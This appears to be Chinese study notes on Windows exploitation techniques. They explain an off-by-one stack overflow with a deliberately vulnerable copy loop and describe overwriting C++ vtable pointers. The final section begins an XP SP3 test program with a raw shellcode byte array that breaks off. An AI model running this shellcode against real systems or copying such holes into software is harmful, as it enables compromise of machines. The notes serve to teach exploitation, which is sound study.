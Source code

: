 - ExitProcess()再清理现场的时候需要进入临界区以同步线程，最终将调用RtlEnterCriticalSection()和RtlLeaceCriticalSection()
- PEB的地址永远不变，比起TEB来说是更好的选择

## `off by one`的利用

> 漏洞利用技术的层次：
>
> - 基础的栈溢出利用：利用返回地址劫持进程
> - 高级的栈溢出利用：只能淹没部分EBP无法抵达返回地址的利用，如对strncpy函数误用时产生的`off by one`的利用
> - 堆溢出以及格式化串漏洞的利用

### 利用

> 代码片段

```CPP
void off_by_one(char * input)
{
  char buf[200];
  int i = 0, len = 0;

  len = sizeof(buf);

  for(i = 0; input[i]&&(i <= len); i++)
  {
    buf[i] = input[i];
  }
}
```

- 此函数试图防止在字符串复制时发生数组越界，但循环中`i <= len`在边界控制中出错了，可能会溢出一个字节
- 我们可以在255个字节的范围内控制EBP，也可能控制程序某些重要参数

## 攻击C++虚函数

### 理论

- C++类的成员函数在声明的时候，若使用了virtual关键字修饰，则是虚函数
- 一个类中可能由很多个虚函数
- 虚函数的入口地址被统一保存在虚表(Vtable)中
- 对象在使用虚函数的时候，先通过虚表指针找到虚表，然后从虚表中取出最终的函数入口地址进行调用
- 虚表指针保存在对象的内存空间，紧接着虚表指针的是其它成员变量
- 虚函数只有通过对象指针的引用才能显示出动态调用的特性

### 尝试

- 对象中的成员变量溢出后，有机会修改对象中的虚表指针或者修改虚表中的虚函数指针
- 这样就有可能会执行shellcode

> 代码尝试

```CPP
/*
Test on Windows XP SP3 without any other patch.
*/

#include "windows.h"
#include "iostream.h"

char shellcode[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
```